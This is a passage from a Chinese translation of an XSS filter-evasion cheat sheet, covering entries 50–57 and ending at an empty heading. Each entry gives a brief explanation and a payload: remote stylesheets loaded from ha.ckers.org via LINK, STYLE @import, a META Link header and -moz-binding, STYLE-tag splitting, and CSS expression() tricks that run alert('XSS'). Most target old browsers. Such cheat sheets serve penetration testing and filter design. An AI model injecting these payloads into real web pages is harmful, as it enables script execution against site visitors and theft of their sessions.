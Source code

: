 <pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">LINK</span> <span class="hljs-attr">REL</span>=<span class="hljs-string">"stylesheet"</span> <span class="hljs-attr">HREF</span>=<span class="hljs-string">"http://ha.ckers.org/xss.css"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t50"></a><a name="t50"></a>远程样式表2</h2>
<p>他的工作原理与上面相同。但是使用了STYLE标签代替LINK标签。榆次向量稍有不同的变异被用于攻击Google Desktop。你可以移除&lt;/STYLE&gt;标签当后面的html去闭合它。这个向量是有用的在不允许输入等号或是反斜杠的实际环境中。</p>
<pre><code class="hljs javascript">&lt;STYLE&gt;@<span class="hljs-keyword">import</span><span class="hljs-string">'http://ha.ckers.org/xss.css'</span>;<span class="xml"><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span></span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t51"></a><a name="t51"></a>远程样式表3</h2>
<p>它仅仅可以工作在 Opera 8.0 (no longer in 9.x) ，但是是非常的狡猾。 Opera 8.0 (no longer in 9.x) 。根据RFC2616规定，设置一个连接头不是 HTTP1.1 规定的一部分，但是很多浏览器仍然允许它（例如Firefox and Opera）。这个技巧是我们可以设置一个http头（与常规http头没有什么不同，只是 Link: <a href="http://ha.ckers.org/xss.css" rel="nofollow">http://ha.ckers.org/xss.css</a>; REL=stylesheet）。这样带有xss代码的远程向量将运行javascript。他并不被支持在 FireFox。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">META</span> <span class="hljs-attr">HTTP-EQUIV</span>=<span class="hljs-string">"Link"</span> <span class="hljs-attr">Content</span>=<span class="hljs-string">"&lt;http://ha.ckers.org/xss.css&gt;; REL=stylesheet"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t52"></a><a name="t52"></a>远程样式表4</h2>
<p>它是仅仅工作在 Gecko 渲染引擎。并且需要绑定一个 XUL文件在页面。令人讽刺的是Netscape认为Gecko是更加安全的，因此绝大多是网站会受到这个攻击。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">STYLE</span>&gt;</span><span class="css"><span class="hljs-selector-tag">BODY</span>{<span class="hljs-attribute">-moz-binding</span>:<span class="hljs-built_in">url</span>(<span class="hljs-string">"http://ha.ckers.org/xssmoz.xml#xss"</span>)}</span><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t53"></a><a name="t53"></a>分隔javascript在STYLE标签</h2>
<p>这个xss在ie浏览器中会造成无线循环</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">STYLE</span>&gt;</span><span class="undefined">@im\port'\ja\vasc\ript:alert("XSS")';</span><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t54"></a><a name="t54"></a>STYLE属性中使用注释去分隔表达式</h2>
<p>提出被 Roman Ivanov</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">STYLE</span>=<span class="hljs-string">"xss:expr/*XSS*/ession(alert('XSS'))"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t55"></a><a name="t55"></a>IMG样式的表达式</h2>
<p>这是上面xss向量的混合体。但是它是展示了STYLE标签被分隔有多困难。同样它也会在ie下造成循环弹窗。</p>
<pre><code class="hljs cpp"><ol class="hljs-ln"><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="1"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"><span class="hljs-built_in">exp</span><span class="hljs-comment">/*&lt;A STYLE='no\xss:noxss("*/</span><span class="hljs-comment"><span class="hljs-comment">/*");</span></span></div></div></li><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="2"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"><span class="hljs-comment">xss:ex/*XSS*/</span><span class="hljs-comment">/*/*/</span>pression(alert(<span class="hljs-string">"XSS"</span>))<span class="hljs-string">'&gt;</span></div></div></li><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="3"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"></div></div></li></ol></code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t56"></a><a name="t56"></a>STYLE标签（仅支持老版本的Netscape）</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">STYLE</span> <span class="hljs-attr">TYPE</span>=<span class="hljs-string">"text/javascript"</span>&gt;</span><span class="undefined">alert('XSS');</span><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t57"></a><a name="t57"></a>使用background-image的style标签</h2>